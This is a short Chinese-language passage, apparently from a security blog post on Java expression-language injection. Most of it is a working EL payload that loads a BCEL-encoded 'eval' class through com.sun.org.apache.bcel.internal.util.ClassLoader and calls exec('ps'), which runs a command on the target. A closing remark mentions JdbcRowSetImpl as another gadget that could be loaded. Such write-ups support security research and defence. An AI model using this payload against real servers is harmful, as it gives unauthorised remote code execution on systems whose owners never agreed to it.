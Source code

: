   加载 eval  类,调用exec 方法 

  ```json
  ${''.class.forName('com.sun.org.apache.bcel.internal.util.ClassLoader').newInstance().loadClass('$$BCEL$$$l$8b$I$I$7c$m$n_$A$Deval$$class$A$8dT$5bO$TQ$Q$fe$O$ddv$cb$b2$U$u$d7$827$f0$c2B$vU$f1$da$o$m$V$US$c1$80$c14$3em$b7$87$ba$a4$ddm$b6$5b$c2$3f$f2Uc$d2$gI$7c$f4$c1$9f$e2$8fP$e7l$97$5eB$8d$b6$e9$cc93$df$99$f9f$e6$9c$fe$f8$f5$f5$h$80$3bx$a9$60$Y$8b2$e2$K$fa$84$5e$92$91P$b0$8c$a4$Q$b7$VB$dcU$Q$c4$8a$C$J$f7$84$b8$_$80$P$c2x$u$f4$p$Z$8fe$a4$YB$ab$a6e$bak$M$Bm$e1$90A$ca$d8$F$ce0$945$z$be$5b$x$e7$b9$f3F$cf$97$c8$S$cd$da$86$5e$3a$d4$jS$ec$7d$a3$e4$be7$ab$U$p$cbO$f4R$9a$f6$fc$94$h$M$b7$b4$ec$b1$7e$a2$tK$baUL$k$b8$8ei$V$d3$L$XM$94$d3$u$XD$e8$k$ae$c1$aa$b7$da$ac$99$a5$Cw$Yb$X$40$be$8b$b0$91$7c$ed$e8$88$3b$bc$b0$cfu$P$3c$d5$E$9bvr$b3$cb$p$u$96$a82$ca$ecp$o$ael$9d$g$bc$e2$9a$b6U$95$n$9ce$dd$b4$Y$s$b4w$3d$K$Q$dd$d1$9d$o$j$h$ed$e1$a6$60$Hv$cd1$f8$b6$v$3a$d3$_$3a$b2$yP$wF$Qe$98$fc$L$7d$ca$d6$9b$x$95$7c$ee$d8$b1$w5$97Nq$bd$dc$f4$c9XU$f1$Ek$w$a6$b0$$cC$c5Sl$8aD$Z$n$9e$a9$d8$c2$b6$8a$e7x$c1$c0$U$V$3b$d8$W$b3$nF$M$c3m$k$7b$f9cn$b8TN$x$cf$5e$ab$l$M$pm$e0$7e$cdr$cd2U$a5$U$b9$db$da$8ck$9d3$f5$cd$d4$87$f9$7fL$ff$b5c$h$bcZMw$a5$f0$8d4KJ$d1Q$_5$ee$3cMw$p$e8$f8$94$d6$d3$n$G5$dav$f9$93$X$d60$f9$LYo$fecZ$cf$L$Z$d2$x$Vn$d1$9dL$fc$d7$Vn_$c1$b0k7M$98$c5$Q$3dL$f1$J$80$89$d9$93$i$a5$dd$KiF$3a$b8$d8$A$fbD$8b$3e$8c$91$U$8f$91$8c$f4$3ee$8c$d3Jm$820$81I$d2T$qb$84$Q$B$3e$pD_$ms$86$be$5c$D$81Wg$90rg$I$e6$be$m$U$afC$ae$p$dc$40$7f$D$can$a2$8e$81$5cJ$fa$8e$e8RL$aaC$8d$O$92x$fb$e1$f7$cf$a5$3a$o$a9$60$y$f8$b1$95$7e$da$L$a9$m$8c$Bb$3e$888$oH$R$ff$Nb$$$e8$ac5S$fat$c4j$g3D$x$8c4$$$e12E$99$c5$i$ae$e0$wU$ab$91$e7$g$fd$q$3a$j$m$fb$M$951Gg$q$c2_G$3fn$e0$a6$df$8b$b8W$g$3a$fb$Q$f2$Mc$j$3d$a0$ff$R$cc$7bZ$f3P$L$7f$A$f1$e1$81$9c$fb$E$A$A').newInstance().exec('ps')}
  ```

  ![bcelrce](/styles/images/2020-07/bcelrce.png)

 <u>这里其实 `com.sun.rowset.JdbcRowSetImpl` 目标环境也可加载，但是 el 2.1 可能还有其他限制，实测中没法创建变量保存生成的对象，这里需要分别调用 setDataSourceName 和 setAutoCommit 就服务实现</u>